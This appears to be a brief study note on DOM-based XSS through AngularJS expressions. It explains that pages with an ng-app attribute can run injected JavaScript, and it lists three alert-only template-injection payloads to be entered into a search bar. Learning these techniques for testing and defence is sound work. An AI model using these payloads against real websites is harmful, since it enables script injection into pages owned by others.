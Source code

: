 ![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__

  - __`{{$on.constructor ('alert(1)') ()}}`__
  - __`{{constructor.constructor ('alert(1)')()}}`__
  - __`<input ng-focus=$event.view.alert('XSS')>`__
